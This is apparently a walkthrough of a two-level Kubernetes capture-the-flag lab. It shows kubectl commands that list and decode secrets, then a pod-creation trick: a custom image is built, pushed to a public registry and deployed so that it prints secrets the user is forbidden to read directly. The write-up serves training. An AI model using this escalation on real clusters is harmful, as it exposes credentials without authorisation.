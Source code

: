 # First K8S CTF - Walktrough

## Easy challenge
list namespaces:  
```bash
kubectl get ns

NAME              STATUS   AGE
default           Active   7m40s
easy              Active   7m35s
kube-node-lease   Active   7m41s
kube-public       Active   7m41s
kube-system       Active   7m42s
medium            Active   7m35s
```  

You can see two interesting namespaces: `easy` and `medium`.  
We will start from the easy one.  

List the secrets in the *easy* namespace:  
```bash
kubectl -n easy get secrets

NAME                 TYPE     DATA   AGE
definitelynotaflag   Opaque   1      10m
flag                 Opaque   1      10m
```  

Retrieve the `flag` secret:  
```bash
kubectl get secret flag -n easy -o=jsonpath='{.data.flag}' | base64 --decode

this is not the flag!
```  

We are not lucky, let's try with the other secret:  
```bash
kubectl get secret definitelynotaflag -n easy -o=jsonpath='{.data.flag}' | base64 --decode

CTF{easy-flag-XWgkxvenoWWwj1AY}
```  
Congrats! you solved the easy challenge!  
Too easy you say?  
Don't worry, things are gonna get harder from here 😈  

## Medium challenge

List the secrets in the *medium* namespace:  
```bash
kubectl -n medium get secrets

NAME   TYPE     DATA   AGE
db     Opaque   1      17m
flag   Opaque   1      17m
```  
Retrieve the `flag` secret:  
```bash
kubectl get secret flag -n medium -o=jsonpath='{.data.flag}' | base64 --decode

Error from server (Forbidden): secrets "flag" is forbidden: User "ctf1" cannot get resource "secrets" in API group "" in the namespace "medium"
```  

It seems that we are not allowed to retrieve secrets in this namespace...let's confirm this:  
```bash
kubectl auth can-i get secrets --namespace=medium

no
```  
What a shame!  
Let's try to get all the resources we can in the *medium* namespace:  
```bash
kubectl -n medium get all

NAME                                 READY   STATUS             RESTARTS        AGE
busybox-deployment-6986fcbcb-5fp6n   0/1     CrashLoopBackOff   9 (2m15s ago)   23m
busybox-deployment-6986fcbcb-8rtx5   0/1     CrashLoopBackOff   9 (2m21s ago)   23m
nginx-deployment-6b7f675859-d4nlh    1/1     Running            0               23m
nginx-deployment-6b7f675859-gpqk2    1/1     Running            0               23m
Error from server (Forbidden): replicationcontrollers is forbidden: User "ctf1" cannot list resource "replicationcontrollers" in API group "" in the namespace "medium"
Error from server (Forbidden): services is forbidden: User "ctf1" cannot list resource "services" in API group "" in the namespace "medium"
Error from server (Forbidden): daemonsets.apps is forbidden: User "ctf1" cannot list resource "daemonsets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): deployments.apps is forbidden: User "ctf1" cannot list resource "deployments" in API group "apps" in the namespace "medium"
Error from server (Forbidden): replicasets.apps is forbidden: User "ctf1" cannot list resource "replicasets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): statefulsets.apps is forbidden: User "ctf1" cannot list resource "statefulsets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): horizontalpodautoscalers.autoscaling is forbidden: User "ctf1" cannot list resource "horizontalpodautoscalers" in API group "autoscaling" in the namespace "medium"
Error from server (Forbidden): cronjobs.batch is forbidden: User "ctf1" cannot list resource "cronjobs" in API group "batch" in the namespace "medium"
Error from server (Forbidden): jobs.batch is forbidden: User "ctf1" cannot list resource "jobs" in API group "batch" in the namespace "medium"
```  
It seems that we are able to retrieve the list of pods in this namespace.  

`hint`: try to play around with **kubectl auth can-i** in order to understand what you can do in this namespace.  

After a while, you will discover that you are able to create pods in the *medium* namespace:  
```bash
kubectl auth can-i create pods --namespace=medium

yes
```  

At this point you can attempt to read the secrets from a pod deployed to the *medium* namespace.  
Proceed as follow:  
1. Create the following dockerfile  

```dockerfile
FROM alpine:latest
RUN apk --no-cache add curl
RUN curl -LO https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl && \
    chmod +x ./kubectl && \
    mv ./kubectl /usr/local/bin/kubectl

# Set the entrypoint script
COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```  
2. Create the following `entrypoint.sh` file  
```bash
#!/bin/sh

# Read and decode the 'flag' secret
flag_secret=$(kubectl get secret flag -n medium -o=jsonpath='{.data.flag}')
decoded_flag=$(echo "$flag_secret" | base64 -d)

# Read and decode the 'db' secret
db_secret=$(kubectl get secret db -n medium -o=jsonpath='{.data.flag}')
decoded_db=$(echo "$db_secret" | base64 -d)

# Output the decoded secrets
echo "Flag Secret: $decoded_flag"
echo "DB Secret: $decoded_db"
```  

3. Build and push the docker image (you a free and disposable public registry like [*ttl.sh*](https://ttl.sh/))
```bash
docker build -t ttl.sh/ctf1:latest . && docker push ttl.sh/ctf1:latest
```  
4. Deploy a pod with that image:  
```bash
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: ctf1-pod
  namespace: medium
spec:
  containers:
  - name: k8sctf1-container
    image: ttl.sh/ctf1:latest
EOF
```  
5. retrieve the list of running podss
```bash
Kubectl -n medium get pods

NAME                                READY   STATUS             RESTARTS        AGE
ctf1-pod                            0/1     Completed          0               1m12s
nginx-deployment-6b7f675859-4pkpk   1/1     Running            0               11m
nginx-deployment-6b7f675859-kvb9c   1/1     Running            0               11m
```  
6. retrieve the logs for that pod
```bash
kubectl -n medium logs ctf1-pod

Flag Secret: this is not the flag!
DB Secret: CTF{medium-flag-zPBBTUPD2mXuZZU3}
```  

Congrats, you pawned the second challenge!  🥳 🎉




